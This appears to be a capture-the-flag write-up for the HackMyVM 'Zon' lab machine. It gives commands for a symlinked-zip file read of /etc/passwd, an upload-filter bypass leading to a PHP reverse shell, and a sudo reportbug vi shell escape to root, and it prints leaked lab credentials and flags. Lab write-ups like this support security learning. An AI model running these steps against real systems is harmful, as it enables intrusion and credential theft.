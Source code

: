 ```yaml
---
layout: post
title: HackMyVM - Zon
date: 2024-02-29 11:32 +0100
description:
image:
categories: CTF HackMyVM
tags:
author: raylex
published: false
---
```

# Enumeration
### 80 - Apache HTTP
Directory fuzzing reveals some interesting files and directoriey
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ cat fuzz/fuzz
/js                   (Status: 301) [Size: 309] [--> http://192.168.58.38/js/]
/index.php            (Status: 200) [Size: 29170]
/css                  (Status: 301) [Size: 310] [--> http://192.168.58.38/css/]
/images               (Status: 301) [Size: 313] [--> http://192.168.58.38/images/]
/contact.php          (Status: 200) [Size: 11753]
/report.php           (Status: 200) [Size: 13]
/blog.php             (Status: 200) [Size: 12490]
/uploads              (Status: 301) [Size: 314] [--> http://192.168.58.38/uploads/]
/upload.php           (Status: 500) [Size: 0]
/about.php            (Status: 200) [Size: 10538]
/service.php          (Status: 200) [Size: 12239]
/.                    (Status: 200) [Size: 29170]
/fonts                (Status: 301) [Size: 312] [--> http://192.168.58.38/fonts/]
/icon                 (Status: 301) [Size: 311] [--> http://192.168.58.38/icon/]
/testimonial.php      (Status: 200) [Size: 17014]
/choose.php           (Status: 200) [Size: 1908]
```
Zip files containing `.jpeg` images are accepted by the `choose.php` page, which also extracts the image and stores it in the `/uploads` directory.  
I'll use the symlink method to read files from the target
- Symlink `/etc/passwd` to `test.jpeg`
```shell
ln -s /etc/passwd ./test.jpeg
```shell
- Create malicious zip
```shell
zip -r file.zip test.jpeg --symlink
```shell
- Upload malicious zip
- Download the test.jpeg from the target
```sjell
wget http://192.168.58.38/uploads/test.jpeg
```
- Extract the strings in the file
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ strings test.jpeg
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:103:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
mysql:x:104:112:MySQL Server,,,:/nonexistent:/bin/false
Debian-snmp:x:105:113::/var/lib/snmp:/bin/false
freddie:x:1000:1000:,,,:/home/freddie:/bin/zsh
```
### File read
Now that i can read local files, I'll modify a script [[Zon#^read]] 0xdf made in [HTB: Zipping | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/01/13/htb-zipping.html) so i don't have to symlink,zip and upload every time i want to view a file.  
The webapp's root directory is `/var/www/html`
- report.php
```php
<?php
$data = json_decode(file_get_contents('php://input'), true);
// Temporary random value for testing purposes only
$randomValue = rand(999999, getrandmax());
if ($data['shortSeq'] != $randomValue) {
    die("Access denied");
echo "Authorized access";
shell_exec('./hashDB.sh');
```
- hashDB.sh ^mysql
```shell
#!/bin/bash
# script that checks the database's integrity every minute
dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"
/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}"
/usr/bin/sed -i '$d' "${dump}"
hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')
if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
```
> MySQL Credential!  
> User: admin  
> Password: udgrJbFc6Av#U3
- upload.php  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
## Foothold
### Shell as www-data
Looking at the code, i see that it can be tricked by zipping a file like `shell.jpeg .php`, the `awk '{print $4}'` command will print the 4th line, thereby omitting the `.php` at the end.  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
This will result in a `return_var=0`, which is just what's needed for the actual unzipping part of the code to be processed.  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
Now i'll upload my malicious zip file which should pass all checks and drop `shell.jpeg .php` in the `uploads` directory which results in RCE   
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }   
I'll upload pentest-monkey's php reverse shell and get shell as `www-data`  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
- Stabilize the shell
### www-data -> freddie
Now that i have a stable shell, i''ll attempt to login to the [[Zon#^mysql]] db i saw earlier  
![db](/docs/assets/images/Pasted image 20240127114424.png)  
I'll login as `fredie` via ssh and retrieve #user-flag 
```shell
╭─freddie@zon ~
╰─$ cat user.txt
a0b4603c7fde7e4113d2ee5fbee5a038
```  
> SSH Credential  
> Username: freddie  
> Password: LDVK@dYiEa2I1lnjrEeoMif  

## Privilege Escalation 
Sudo commands run really slow cause hostname `zon` isn't in the `/etc/hosts` file
Listing sudoers reveals user `freddie` may run `/usr/bin/reportbug` as `root`
```shell
sudo: unable to resolve host zon: Name or service not known
Matching Defaults entries for freddie on zon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User freddie may run the following commands on zon:
    (ALL : ALL) NOPASSWD: /usr/bin/reportbug
```
The program is a debian bug report tool written in python  
Since it's a bug report tool running as root, i'm just going to guess is uses vim editor for bug writing submissions. Searching `/usr/bin/reportbug editor` confirms this  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
Now i just have to find a way to the editor
### freddie -> root
After briefly going through the documentation, i'll attempt to submit a report
```
sudo /usr/bin/reportbug
```
...and go on with the configuration
- select any operating mode - normal
- select internet option - n
- enter name - root
- enter an email - root@zon.local
- no transport agent
- no proxy
- `y` to continue as root
- enter `other` or any program name - `apt`
- enter a subject for the report
- select any severity
- it should now request for the editor, select Vi (if not specified using `-e`)
- enter the command `:!/bin/bash`
and a shell will be spawned as the `root` user  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
Retrieve the #root-flag 
```shell
root@zon:~# cat /root/root.txt
18a72aa09ce61fb487fd6745c8eba769
```